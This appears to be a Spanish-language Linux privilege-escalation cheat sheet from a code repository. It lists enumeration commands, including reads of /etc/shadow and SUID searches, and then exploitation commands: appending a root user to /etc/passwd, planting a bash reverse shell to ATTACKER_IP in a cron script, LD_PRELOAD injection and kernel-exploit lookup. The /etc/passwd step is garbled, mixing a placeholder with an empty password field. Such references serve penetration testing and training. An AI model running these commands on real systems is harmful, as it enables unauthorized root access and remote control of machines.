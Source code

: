 # Enumeration: Linux privilege escalation

## 🔍 Sección 1: Enumeración

### 1️⃣ Información del sistema

```bash
uname -a                   # Versión del kernel
cat /etc/os-release        # Información de la distribución
cat /etc/issue							
arch                       # Arquitectura del sistema
sudo -V
```

### 2️⃣ Usuarios y grupos

```bash
whoami                     # Usuario actual
id                          # Grupos del usuario actual
who -a                      # Usuarios conectados
cat /etc/passwd            # Lista de usuarios
cat /etc/shadow            # Hashes de contraseñas (requiere root)
sudo -l                    # Comandos sudo disponibles
```

### 3️⃣ Permisos y archivos sensibles

```bash
find / -perm -4000 2>/dev/null   # Binarios con SUID
find / -perm -2000 2>/dev/null   # Binarios con SGID
find / -type f -writable 2>/dev/null  # Archivos con permisos de escritura
find /home -name '.*history' 2>/dev/null  # Historial de comandos
find / -type f -perm -g=w -group <grupo> 2>/dev/null # Archivos con permiso de escritura por el grupo
find / -type f -writable -user $(whoami) 2>/dev/null # Archivos escribibles por tu usuario actual (sin importar grupo)
find / -writable -group <grupo> 2>/dev/null # directorios (para escribir archivos dentro)
find / -type f -perm -g=w -perm -111 -group <grupo> 2>/dev/null # Buscar archivos ejecutables escribibles por el grupo
```

### 4️⃣ Procesos y tareas en ejecución

```bash
ps aux | grep root           # Procesos ejecutados por root
ps -ef | grep <proceso>      # Información de un proceso específico
lsof -i                     # Conexiones activas
```

### 5️⃣ Servicios y conexiones

```bash
netstat -tulnp               # Puertos abiertos y servicios activos
ss -tulnp                    # Alternativa a netstat
iptables -L                  # Reglas de firewall
systemctl list-units --type=service  # Servicios activos
```

### 6️⃣ Cron jobs y timers

```bash
ls -lah /etc/cron*           # Revisar cron jobs
cat /etc/crontab            # Tareas programadas
systemctl list-timers       # Timers activos
```

### 7️⃣ Variables de entorno

```bash
env                         # Variables de entorno
echo $PATH                  # Directorios en PATH
cat /etc/profile            # Variables globales
```

### 8️⃣ Capacidades de binarios

```bash
getcap -r / 2>/dev/null     # Binarios con capacidades especiales
```

### 9️⃣ Contenedores y Docker

```bash
docker ps -a                # Contenedores en ejecución
cat /etc/group | grep docker # Ver si el usuario está en el grupo docker
```

## 💥 Sección 2: Explotación

### 1️⃣ Explotación de SUDO mal configurado

```bash
sudo -l                     # Ver permisos sudo
sudo su                     # Si NOPASSWD está habilitado
sudo <comando>              # Ejecutar comandos con sudo
```

### 2️⃣ SUID/SGID abuse

```bash
find / -perm -4000 2>/dev/null   # Buscar archivos con SUID
find / -perm -2000 2>/dev/null   # Buscar archivos con SGID
/bin/bash -p                     # Ejecutar bash con privilegios SUID
```

### 3️⃣ Malos permisos en archivos y directorios

```bash
openssl passwd newpass
codedPass
echo 'root::0:0:codedPass:::/bin/bash' >> /etc/passwd  # Crear usuario root
```

### 4️⃣ Tareas cron y servicios inseguros

```bash
echo "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" > /path/to/vulnerable_script.sh
```

### 5️⃣ Variables de entorno peligrosas

```bash
export PATH=/tmp:$PATH       # Modificar PATH
export LD_PRELOAD=/tmp/malicioso.so  # Cargar biblioteca maliciosa
```

### 6️⃣ Explotación de procesos en ejecución

```bash
gdb -p <PID>                # Adjuntar a un proceso
```

### 7️⃣ Explotación de servicios y configuraciones de red

```bash
showmount -e <IP>           # Revisar NFS
```

### 8️⃣ Extracción de credenciales

```bash
cat ~/.bash_history         # Revisar historial de comandos
```

### 9️⃣ Kernel Exploits

```bash
uname -r                    # Revisar versión del kernel
searchsploit <versión>      # Buscar exploits para el kernel
```
